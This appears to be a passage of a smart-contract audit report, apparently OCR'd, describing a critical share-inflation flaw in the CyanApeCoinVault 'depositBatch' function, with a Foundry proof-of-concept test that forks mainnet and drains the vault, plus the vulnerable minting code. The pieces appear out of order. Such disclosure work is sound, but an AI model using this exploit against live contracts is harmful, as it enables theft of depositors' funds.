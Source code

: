 ```solidity
        console.log("Low vault balance:", apeCoin.balanceOf(address(vault)));

        // Perform the attack
        CyanApeCoinVault.DepositInfo[] memory deposits1 = new CyanApeCoinVault.DepositInfo[](1);
        deposits1[0] = CyanApeCoinVault.DepositInfo(attacker, 1);
        vault.depositBatch(deposits1);

        CyanApeCoinVault.DepositInfo[] memory deposits2 = new CyanApeCoinVault.DepositInfo[](1);
        deposits2[0] = CyanApeCoinVault.DepositInfo(attacker, 1e18);
        vault.depositBatch(deposits2);

        uint256 lockTerm = vault.withdrawLockTerm();
        if (lockTerm > 0) {
            vm.warp(block.timestamp + lockTerm + 1);
        }

        uint256 tokens = vaultToken.balanceOf(attacker);
        vault.withdraw(tokens);
        console.log("Attacker ApeCoin after exploit:", apeCoin.balanceOf(attacker));
        console.log("Vault balance after exploit:", apeCoin.balanceOf(address(vault)));
        assertEq(apeCoin.balanceOf(address(vault)), 0, "Vault should be insolvent after exploit");
    }
}
```

### Vulnerability Summary
- **Target Contract:** `CyanApeCoinVault.sol`  
- **Function:** `depositBatch`  
- **Risk Classification:** Critical  

### Key Code Snippet
```solidity
(uint256 totalCurrency, uint256 totalToken) = getTotalCurrencyAndToken();
if (totalCurrency == 0 || totalToken == 0) {
    totalCurrency = 1;
    totalToken = 1;
}
uint256 mintAmount = (amount * totalToken) / totalCurrency;
cyanVaultTokenContract.mint(recipient, mintAmount);
```

---

## Attack Simulation Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "forge-std/console.sol"; 
import "../contracts/CyanApeCoinVault.sol"; 
import "../interfaces/IERC20Upgradeable.sol";
import "../interfaces/ICyanVaultTokenV1.sol";

contract TokenInflationPoC is Test {
    CyanApeCoinVault public vault;
    IERC20Upgradeable public apeCoin;
    ICyanVaultTokenV1 public vaultToken;
    address public attacker = address(this);
    uint256 public constant INITIAL_VAULT_BALANCE = 1_000_000e18;

    function setUp() public {
        vm.createSelectFork("mainnet", 17_000_000);
```